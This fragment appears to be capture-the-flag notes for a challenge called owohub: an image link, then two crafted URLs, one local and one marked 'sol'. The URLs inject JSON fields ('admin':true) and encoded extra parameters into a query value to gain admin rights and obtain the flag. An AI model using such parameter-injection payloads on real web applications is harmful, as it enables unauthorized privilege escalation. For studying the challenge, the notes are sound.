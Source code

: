 http://127.0.0.1:38787/auth?username=a&cute=,  admin:true}%26givemeflag=yes%26b={b:1, a:true 

sol: http://owohub.zoolab.org/auth?username=a&cute="a",  "admin":true}%26givemeflag=yes%23true
